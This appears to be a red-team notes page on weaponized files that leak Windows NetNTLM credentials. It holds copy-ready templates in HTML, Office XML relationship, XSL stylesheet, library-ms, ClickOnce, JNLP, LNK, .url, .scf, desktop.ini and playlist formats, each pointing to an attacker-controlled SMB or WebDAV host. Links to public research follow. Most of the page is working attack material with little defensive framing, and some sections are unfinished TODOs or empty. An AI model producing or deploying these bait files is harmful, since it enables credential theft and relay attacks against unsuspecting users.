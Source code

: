 # Manual

## 01 - Internet Explorer or Microsoft Edge

```html
<!DOCTYPE html>
<html>
	<img src="file://<attacker_IP>/leak/leak.png"/>
</html>
```

Using a URL handle with `ms-word:ofe|u|` scheme can trigger SMB relay.

```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<attacker_IP>\leak\leak.docx';
	</script>
</html>
```

## 02 - XML

### 2.1 - Microsoft Office subDoc

Extract `.docx` file using `7zip` or `unzip` and modify the contents in `word\_rels\settings.xml.rels`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://<attacker_IP>/leak/Template.dotx" TargetMode="External"/>
</Relationships>
```

### 2.2 - XML Stylesheet

Name it with either `.xml` or `.xsl` extension.

```xml
<?xml version="1.0" encoding="utf-8" ?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\<attacker_IP>\snare\file.xsl"?>
```

A `file://` schema can be exploited when bypassing firewall through WebDAV protocol.

```xml
<?xml version="1.0" encoding="utf-8" ?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" file=:////<attacker_IP>/snare/file.xsl"?>
```

The user can open the document with **Office XML** but to execute it through command line can be weaponized.

```
C:\> MSOXMLED.EXE /verb open "C:\path\to\file.xml"
```

### 2.3 - Library MS

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
		<folderType><§7d49d726-3c21-4f05-99aa-fdc2c9474656§></folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
	<searchConnectorDescription>
	<isDefaultSaveLocation>true</isDefaultSaveLocation>
	<isSupported>false</isSupported>
		<simpleLocation>
			<url>\\<attacker_IP>\<share_name>\\library-ms_1234</url>
		\r\t\t</simpleLocation>
	\r\t</searchConnectorDescription>
	\r\t</searchConnectorDescriptionList>
\r</libraryDescription>
```

### 2.4 - ClickOnce

TODO: check `.manifest` and `.appref-ms` to reproduce it.

Name it with `.application` extension.

```xml
<?xml version="1.0" encoding="utf-8"?>
<asmv1:assembly xsi:schemaLocation="urn:schemas-microsoft-com:asm.v1 assembly.adaptive.xsd" manifestVersion="1.0" xmlns:dsig="http://www.w3.org/2000/09/xmldsig#" xmlns="urn:schemas-microsoft-com:asm.v2" xmlns:asmv1="urn:schemas-microsoft-com:asm.v1" xmlns:asmv2="urn:schemas-microsoft-com:asm.v2" xmlns:xrml="urn:mpeg:mpeg21:2003:01-REL-R-NS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<assemblyIdentity name="Leak.app" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<description asmv2:publisher="Leak" asmv2:product="Leak" asmv2:supportUrl="" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<deployment install="false" mapFileExtensions="true" trustURLParameters="true" />
	<dependency>
		<dependentAssembly dependencyType="install" codebase="file://<responder ip>/snare/Program.exe.manifest" size="32909">
			<assemblyIdentity name="Program.exe" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" type="win32" />
			<hash>
				<dsig:Transforms>
					<dsig:Transform Algorithm="urn:schemas-microsoft-com:HashTransforms.Identity" />
				</dsig:Transforms>
				<dsig:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
				<dsig:DigestValue>ESZ11736AFIJnp6lKpFYCgjw4dU=</dsig:DigestValue>
			</hash>
		</dependentAssembly>
	</dependency>
</asmv1:assembly>
```

### 2.5 - Java Web Start

Name it with `.jnlp` extension.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<jnlp spec="1.0+" codebase="" href="">
	<resources>
		<jar href="file://<<attacker_IP>>/leak/leak.jar"/>
	</resources>
	<application-desc/>
</jnlp>
```

## 03 - Shortcut LNK

TODO: Show it step by step.

```
$ pylnk3 c \\<attacker_IP>\<share_name>\file.ext implant.lnk
```

## 04 - Web Query

```

```

## 04 - Internet Shortcut File

SMB link and name it with `.url` extension.

```
[InternetShortcut]
URL=https://website.com
IconIndex=0
IconFile=\\<attacker_IP>\snare\file.ico
```

WebDAV link.

```
[InternetShortcut]
URL=file://<attacker_IP>/@snare
```

## 05 - Shell Command Files

> [!INFO]
> Windows 10 or later no longer supports `.scf`.

Name it with `.scf` extension.

```
[Shell]
Command=2
IconFile=\\<attacker_IP>\snare\file.ico
[Taskbar]
Command=ToggleDesktop
```

## 06 - Desktop.ini

Name it with `.ini` extension.

```
C:\> mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\<attacker_IP>\snare >> desktop.ini
attrib +s +h desktop.ini
```

```
[.ShellClassInfo]
IconResource=\\<attacker_IP>\snare
```

## 07 - Windows Media Player

Name it with `.m3u` extension.

```
#EXTM3U
#EXTINF:1337, Snare
\\<attacker_IP>\file.mp3
```

Name it with `.asx` extension.

```
<asx version="3.0">
	<title>Leak</title>
	<entry>
		<title></title>
		<ref href="file://<attacker_IP>/snare/file.wma"/>
	</entry>
</asx>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut Link File/Windows/Manual/Unix Shell]]

### Rhino Security Labs

- [Rhino Security Labs: Abusing Microsoft Word Features for Phishing - "subDoc"](https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/)

### Securify

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

### Lab of a Penetration Tester

- [Lab of a Penetration Tester: Abusing Web Query (`.iqy`) files for effective phishing](https://www.labofapenetrationtester.com/2015/08/abusing-web-query-iqy-files.html)

### Bohops

- [Bohops: Capturing NetNTLM Hashes with Office [DOT] XML Documents](https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Mubix

- [Malicious.link: SMB/HTTP Auth Capture via SCF File](https://room362.com/posts/2016/smb-http-auth-capture-via-scf/)

### 1337Red

- [1337red: Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

### Pentest Lab

- [Pentestlab Blog: Microsoft Office - NTLM Hashes via Frameset](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)

- [Pentestlab Blog: SMB Share SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)